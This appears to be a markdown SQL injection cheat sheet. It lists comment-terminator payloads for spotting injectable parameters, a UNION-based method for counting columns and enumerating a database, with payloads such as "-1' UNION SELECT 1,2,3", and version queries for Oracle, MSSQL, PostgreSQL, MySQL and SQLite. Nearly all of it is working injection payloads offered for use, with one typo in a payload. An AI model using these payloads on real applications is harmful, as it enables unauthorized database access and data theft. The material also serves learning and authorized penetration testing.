 # Entry point
if the response is unchanged after one of these payloads - the parameter might be vulnerable to SQLi.

Oracle / MSSQL / PostgreSQL / MySQL / SQLite
```
 -- 
' -- 
" -- 
 /*
' /* 
" /* 
```
MySQL
```
 # 
' # 
" # 
```
https://placehold.it/150/ffffff/ff0000?text=SELECT%20role%2Cfullname%20FROM%20users%20WHERE%20id%3D%27
<code style="color:green">SELECT role,fullname FROM users WHERE id='</code>
example query: SELECT role,fullname FROM users WHERE id='1' # '
# UNION attack
if data is returned in the response, the database can be enumerated using a union attack.
in this case, the first step is to figure out how many columns are returned by the query.
personally I like to supply an id or a username that does not exist so no row is returned,
and then unioning a row of my choice until it is returned by the application:
```
-1' UNION SELECT 1; # 
-1' UNION SELECT 1,2: # 
-1' UNION SELECT 1,2,3; # and so on ...
```
after some of the numbers we supplied are reflected in the response, we can replace them with
other builtin methods and attributes to further enumerate the database.

example query:
```diff
@@ SELECT name,issue_date,valid_until FROM tickets WHERE ticket_id=" @@ - -1" UNION SELECT 1,2,3 /* @@ " @@
```
# Version enumeration

PostgreSQL / MySQL / MariaDB
```
SELECT version()
```
MSSQL / MySQL
```
SELECT @@version
```
SQLite
```
SELECT sqlite_version()
```
Oracle
```
SELECT banner FROM v$version
SELECT version FROM v$instance
```
